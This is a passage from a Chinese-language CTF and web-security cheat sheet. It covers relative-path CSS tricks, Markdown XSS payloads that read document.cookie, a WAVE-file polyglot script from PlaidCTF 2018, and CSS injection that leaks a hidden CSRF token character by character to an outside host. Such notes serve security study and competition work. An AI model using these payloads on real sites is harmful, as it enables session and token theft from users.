 ``` ? -> %3f -> %253f ```
    - Web Server則會正常解析成`a/index.php`
    - 所以當使用**相對路徑**載入css時，就可以透過這種方式讓瀏覽器解析到其他層目錄下的檔案
        - 如果該檔案內容可控，則有機會XSS
    - 舉例： 
        - `/test.php`中有`<link href="1/" ...>`
        - 另有`/1/index.php`給`?query=`參數，會直接輸出該參數內容
        - 訪問`/1%2f%3Fquery={}*{background-color%3Ared}%2f..%2f../test.php`就會讓背景變紅色
            - Server: `/test.php`
            - Browser: `/1%2f%3Fquery={}*{background-color%3Ared}%2f..%2f../test.php`
                - CSS會載入`/1/?query={}*{background-color:red}/../../1/`
            - CSS語法容錯率很高

## Markdown XSS
- `[a](javascript:prompt(document.cookie))`
- `[a](j a v a s c r i p t:prompt(document.cookie))`
- `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
- `[a](javascript:window.onerror=alert;throw%201)`

## 文件XSS
- Example: PlaidCTF 2018 wave XSS
- 上傳.wave檔 (會檢查signatures)
  ```
    RIFF`....WAVE...` 
    alert(1); 
    function RIFF(){}
  ```
    - 變成合法的js語法
    - wave在apache mime type中沒有被定義
    - `<script src="uploads/this_file.wave">`

## CSS Injection
- CSS可控時，可以Leak Information
- Example:
    - leak `<input type='hidden' name='csrf' value='2e3d04bf...'>`
    - `input[name=csrf][value^="2"]{background: url(http://kaibro.tw/2)}`
    - `input[name=csrf][value^="2e"]{background: url(http://kaibro.tw/2e)}`
    - ...
    - SECCON CTF 2018 - GhostKingdom
    
https://github.com/s0md3v/AwesomeXSS